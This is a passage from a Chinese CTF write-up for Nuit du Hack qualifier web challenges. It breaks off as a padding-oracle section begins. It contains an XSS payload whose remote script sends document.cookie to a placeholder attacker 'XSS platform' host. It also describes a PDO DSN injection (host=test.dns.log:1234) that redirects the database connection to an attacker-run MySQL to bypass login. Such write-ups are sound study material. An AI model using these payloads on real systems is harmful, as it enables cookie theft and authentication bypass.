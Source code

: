 ```
&lt;script src="http://你的xss平台"&gt;&lt;/script&gt;
```

回到题目，既然没有过滤，那么直接执行js就好了，提交如下：

```
&lt;script src="http://你的网址/requests.js"&gt;&lt;/script&gt;
```

然后这个 request.js 这样写的

```
$.get("http://你的xss平台?a="+document.cookie,function(data,status)`{``}`)
```

截图如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0193234f648d0a4847.png)

登陆进去就能看到IBAN账户,这就是flag了。

<br>

**WhyUNoKnock**

一道挺有意思的题目，网址进去是一个登陆页面，登陆时候输入了3个参数，login password group，前两个参数用户名和密码简单测试应该没问题，然后第三个参数，更改为其他字符就提示 PDOException : 1044 一开始猜测是表名注入，但是测试各种payload发现不符合sql语句的规范。后来本地测试的时候发现输入点可能在利用pdo连接数据库的时候选择的配置。然后猜测能够覆盖掉pdo的其他配置，输入group=users;host=test.dns.log:1234;然后有dns的记录和tcp请求的记录，证明输入点的确在这个位置。但是我们不知道数据库密码和数据库结构怎么办呢？心里有两个选项: 1.虽然他想连接一个mysql服务，但是我们不一定要给他一个真的mysql，可以自己写一个fake mysql server或者在真正mysql返回的时候抓包替换返回值为自己构造的数据。2.修改mysql的配置解决这两个问题:先是利用参数skip-grant-table可以跳过认证，然后设置mysql日志抓取sql记录，然后通过sql去建立相应的数据库。这里选择了第二个方式。最后的sql日志如图

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0176e71c7a376827f8.png)

erpay即为服务器连接时的用户名，然后执行了一个select语句，通过构造出相应的admins数据库，增加一条记录，就能成功登陆，拿到flag。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016302ecf18f2efd85.png)

<br>

**MarkIsFaillingDownDrunk**

进去之后随便点一个，发现链接变成这个

[http://markisfaillingdowndrunk.quals.nuitduhack.com/view/deadbeefcafedeadbeefcafe0403020152208110d1a06ce628ff8e10f4cbc1aa96ac276f57b6d80e50df1050c455fdf440d56ae51399ceb30b5b69153ddc230219e3f662023665e8885c90867b8c3a02](http://markisfaillingdowndrunk.quals.nuitduhack.com/view/deadbeefcafedeadbeefcafe0403020152208110d1a06ce628ff8e10f4cbc1aa96ac276f57b6d80e50df1050c455fdf440d56ae51399ceb30b5b69153ddc230219e3f662023665e8885c90867b8c3a02) 

这一看都不用想，80%是`padding oracle`，

然后开始写代码，先把他的几串东西的明文搞出来，代码如下：
